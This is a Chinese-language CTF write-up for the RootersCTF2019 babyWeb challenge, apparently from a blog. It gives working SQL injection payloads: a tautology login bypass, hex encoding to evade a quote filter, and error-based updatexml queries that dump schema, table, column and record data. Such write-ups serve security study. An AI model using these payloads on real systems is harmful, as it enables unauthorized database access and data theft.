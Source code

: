 ```yaml
---
title: '[RootersCTF2019]babyWeb'
date: 2024-08-25 19:52:19
tags: 
     - 题解
     - sql注入
categories: 刷题笔记
---
```


### [RootersCTF2019]babyWeb

![image-20240825195614654](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202408251956800.png)

看页面提示是个sql注入，提示过滤了union`、`sleep`、`'`、`"`、`or`、`-`、`benchmark

我们先测试字段数，当字段为2时，页面正常回显，为3是则发生报错

```
1 order by 2
1 order by 3
```

<!--more-->

### 非预期

我们使用万能密码登录

```
1 || 1=1 limit 0,1
```

![image-20240825195829817](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202408251958897.png)

预期解

我们先爆库，由于引号被过滤了，我们用16进制代替

```
1 || update(1,0x3a,1)
```

![image-20240825200146973](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202408252001044.png)

接下来就慢慢构造

```
爆库：sql_injection
1||(updatexml(1,concat(0x3a,(select SCHEMA_NAME from information_schema.schemata limit 3,1)),1))#

爆表：users
1||(updatexml(1,concat(0x3a,(select(group_concat(table_name))from(information_schema.tables)where(table_schema=database()))),1))#

列字段：USER CURRENT_CONNECTIONS TOTAL_CONNECTIONS user uniqueid
1||(updatexml(1,concat(0x3a,(select column_name from information_schema.columns where table_name=0x7573657273 limit 4,1)),1))#

取值：
1||(updatexml(1,concat(0x3a,(select uniqueid from sql_injection.users limit 0,1)),1))#
```

最后在`sql_injection.users`的`uniqueid`字段里找到一串数字

![image-20240825200539486](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202408252005518.png)

我们在主页输入得到flag

